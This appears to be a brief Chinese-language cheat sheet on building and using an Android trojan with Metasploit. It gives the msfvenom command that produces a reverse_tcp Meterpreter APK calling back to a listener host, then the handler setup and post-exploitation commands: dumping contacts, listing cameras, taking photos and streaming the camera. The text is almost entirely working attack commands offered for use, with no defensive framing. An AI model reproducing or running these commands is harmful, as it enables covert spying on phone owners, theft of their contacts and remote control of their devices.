 # 安卓木马的生成及使用
- 生成apk木马文件：msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.106 LPORT=5555 R > /root/a.apk
- 安装到手机（只能自己安装优化中）
- 选择指定的Exploit：use exploit/multi/handler
- 选择payload  ：set payload android/meterpreter/reverse_tcp
- 设置参数： set LHOST 192.168.1.111 && set LPORT 55555
# 木马使用
- sysinfo  查看型号
- dump_contacts    这个是导出电话
- Webcam_list 看有几个摄像头
- webcam_snap   拍照
- webcam_stream(开启摄像头)  -i 1  是选择后摄像头  
